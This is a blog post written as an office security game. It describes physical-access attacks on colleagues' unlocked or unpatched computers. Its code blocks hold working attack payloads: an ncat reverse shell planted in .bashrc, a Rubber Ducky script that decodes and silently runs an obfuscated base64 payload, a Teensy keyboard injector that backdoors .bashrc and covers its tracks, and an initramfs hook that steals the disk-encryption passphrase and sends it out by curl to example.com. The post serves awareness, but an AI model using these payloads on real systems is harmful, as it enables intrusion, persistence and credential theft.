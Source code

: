 ```yaml
---
layout: post
title: French Croissant - or why you need to lock your computer
image: /images/default.jpg
---
```


Last year the first day of my internship I was given a computer and asked to install and secure it for two days. After that delay anyone can try to attack and compromise my machine, and if so I was welcome to buy some "French Croissants" to the team while the attacker explain his method to get access into your computer the next morning.
There are some techniques you need to be aware of when you're securing your machine, the list below is not exhaustive.

<!--more-->

## Open session
When your colleague leave their computer without locking their session, it's time to go on their laptop and interact with it. In this scenario you can :
  - send an email to the team if he was logged into his mail account
  {% highlight plain%}
  To: team@company.com
  Subject: Croissant for all tomorrow
  {% endhighlight %}

  - if he was using Linux, you may want to keep a simple backdoor in order to do a privilege escalation and become a root user, the easiest way to achieve is to backdoor the .bashrc with a reverse-shell
  {% highlight bash%}
  ncat 192.168.1.2 4444 -e /bin/bash 2> /dev/null &
  {% endhighlight %}

## Written password
Maybe the most unskilled scenario, sometimes the user will write some interesting informations onto a paper sheet or a post-it, and leave it on their desktop. You can just grab the credential.    
![alt text]({{ site.baseurl }}/images/security-password-postit.jpg "Logo Title Text 1")

## Outdated components
The computer has to be updated, if your colleague doesn't do the regular patches you might be able to take advantages of this. Commonly you can target the Operating system e.g:Windows XP with MS08-067, or the Browser (Chrome/Firefox etc)

## Guest account
Sometimes the guest account is enable and allows you to get further access into the machine.
[LightDM (Ubuntu 16.04/16.10) - Guest Account Local Privilege Escalation](https://www.exploit-db.com/exploits/41923/)

## Debug components
Most of the times you can acces the debug application on the port 80 on the internal network if there is no filtering. Depending of the application you look for :
  - Common vulnerabilites (OWASP top 10)
  - Debug interface (Python Flask)

## USB Live ISO
When there is no bios password, it's easy to compromise the computer by booting with a Live USB / Live CD and adding the backdoor.

## Grub - Root access
Even if there is a bios password you still need to secure your Grub (boot-manager), otherwise anyone can edit it in order to start a root shell.

{% highlight bash%}
Press [SHIFT KEY] to get into grub2
Press [E] to edit the command line
Append init=/bin/sh
{% endhighlight %}

## USB : Rubber Ducky or Teensy
If you are willing to spend around 40$, you can buy a Rubber Ducky. This is a fake USB which will act as a keyboard and send any key to the plugged computer. The payload can be created within a notepad or online at https://ducktoolkit.com/.

The full documentation is available at [https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)

The following script was generated by DuckToolkit and serve a directory via HTTP
{% highlight bash%}
DEFAULT_DELAY 100
DELAY 3000
CTRL-ALT t
DELAY 200
STRING  printf '\e[3;1;1t'
ENTER
STRING  echo H4sIACBLCFoC/13OzwqDMAwG8HufIiDM9jAfYLD7joLei2hmC/1HGgXffh2dHpbTx0f4JdanSAwxC1tTPq7oN8c2UZwxZxtWIRZ8Qzq0YU5SPQSUibmbzWJJtq06i0Iwetmmg00McPcwFNHhaxz7AWlHAriVddEUUBskrDRtQU/OnfTf+a6vUfJEK/Lz94jqcilY1uvN16jipX0AB59ZiuMAAAA= | base64 --decode | gzip -d > environ-34314.py
ENTER
STRING  nohup python environ-34314.py > /dev/null 2>&1 &
ENTER
STRING  rm -rf environ-34314.py
ENTER
STRING exit
ENTER
{% endhighlight %}


Alternatively you can buy a Teensy board for 15$, it requires a little bit of configuration but it works as well
First, you need to install the arduino IDE, the Teensyduino and the rules for the Teensy board.
{% highlight bash%}
wget https://raw.githubusercontent.com/apmorton/teensy-template/master/tools/49-teensy.rules
mv 49-teensy.rules /etc/udev/rules.d/49-teensy.rules
wget https://www.pjrc.com/teensy/td_140/TeensyduinoInstall.linux64 && chmod +x ./TeensyduinoInstall.linux64 &&./TeensyduinoInstall.linux64
wget https://www.arduino.cc/download_handler.php
tar xvf arduino-1.8.5-linux64.tar.xz
{% endhighlight %}

The following code press the keys [ALT]+[F2], then write "xterm", followed by an echo into the user's .bashrc
{% highlight c%}
void setup() {

  delay(100);
  Keyboard.set_modifier(MODIFIERKEY_ALT);
  Keyboard.set_key1(KEY_F2);
  Keyboard.send_now();
  delay(100);

  Keyboard.set_modifier(0);
  Keyboard.set_key1(0);
  Keyboard.send_now();
  delay(100);

  Keyboard.println("xterm");
  delay(100);

  Keyboard.set_key1(KEY_ENTER);
  Keyboard.send_now();
  delay(100);

  // Reverse-shell stored in the bashrc
  Keyboard.println(" echo ' ncat 192.168.1.XX 4242 -e /bin/bash 2>/dev/null & clear' >> $HOME/.bashrc ");
  delay(100);

  // Now we clean our tracks
  Keyboard.println("exit");
  delay(100);
}

void loop() {
  delay(5000);
}
{% endhighlight %}
NOTE: When programming the board press the "RESET" button to avoid the launch of the payload on your computer

## Initramfs Backdoor - Encrypted Hard Drive
When you're booting there is one partition that is not encrypted in order to start. It will ask for your password and then decrypt and mount the other partition. If you have and access to the hard drive it is possible to replace the Initramfs.img in order to get the password to decrypt the full hdd, you can also wait for the decryption and then inject what you want inside a file as root :)

Mounting boot partition (not encrypted)
{% highlight bash%}
fdisk -l /dev/sda
mkdir /mnt/sda1
mount /dev/sda1 /mnt/sda1
{% endhighlight %}

Extracting initramfs-linux
{% highlight bash%}
cp /dev/sda1/initramfs-linux.img /tmp/initramfs-linux.img.gz
gunzip initramfs-linux.img.gz
cpio -i < initramfs-linux.img
{% endhighlight %}


Adding the backdoor and packaging back to a .img
{% highlight bash%}
vim /hooks/encrypt

backdoor line 78
echo -n "Enter passphrase for /dev/sda3: "
read -s mypass
echo -n $mypass | cryptsetup open --key-file - --type luks /dev/sda3 mymap
mkdir myfolder
mount /dev/mapper/mymap myfolder
echo "curl example.com/LUKS/$mypass 2> /dev/null" >> myfolder/home/user/.bashrc
echo "curl example.com/LUKS/$mypass 2> /dev/null" >> myfolder/home/root/.bashrc
umount myfolder
rmdir myfolder
cryptsetup close mymap


find . | cpio -o -H newc | gzip > ../test.img  
{% endhighlight %}
